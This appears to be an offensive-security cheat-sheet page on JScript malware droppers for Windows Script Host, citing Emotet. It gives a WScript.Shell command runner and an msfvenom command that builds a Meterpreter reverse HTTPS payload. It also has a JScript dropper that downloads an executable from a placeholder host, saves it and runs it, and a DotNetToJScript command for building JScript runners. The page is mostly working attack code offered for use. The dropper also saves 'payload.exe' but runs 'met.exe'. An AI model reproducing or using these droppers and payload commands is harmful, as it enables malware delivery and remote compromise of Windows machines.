 # JScript

JScript is used by popular malware like Emotet. The .js extension is by default associated with Windows Scripting Host - so double clicking such a file will execute it.

### Simple Shell Command

```js
var shell = new ActiveXObject("WScript.Shell")
var res = shell.Run("cmd.exe");
```

### Simple Dropper

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f exe -o met.exe 
```

```js
var url = "http://ip/payload.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{
    var Stream = WScript.CreateObject('ADODB.Stream');
    
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;
    Stream.SaveToFile("payload.exe", 2);
    Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

### Convert C# to JScript

{% embed url="https://github.com/tyranid/DotNetToJScript" %}

Open the project in VS, modify the `ExampleAssembly` as desired (such as the below), build and then run:

```powershell
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js
```
